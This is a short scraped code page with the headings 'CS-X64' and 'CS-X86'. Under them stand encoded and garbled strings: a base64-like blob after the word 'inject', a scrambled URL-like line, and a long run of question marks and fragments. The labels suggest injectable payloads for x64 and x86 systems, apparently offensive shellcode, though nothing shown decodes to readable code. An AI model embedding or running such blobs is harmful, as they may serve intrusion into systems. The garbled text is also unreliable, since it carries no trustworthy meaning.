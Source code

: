 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

fwsedf14?|??2,???M;6?,6;1????0,?e??;1???4,I;1?8,N;2?2,??a????;26?,a;???30,7????;34??,2????;????38,o;??42????,T;4????6,??0;50???,?v;54???,C;|???PlaM2??Z??r6sc?He??Xfe???IRebN??1y???oa????NsWa?Lgo7?e8J2K??CYo??nDATU???cL0bY?rvi?0VC=??Oergeg
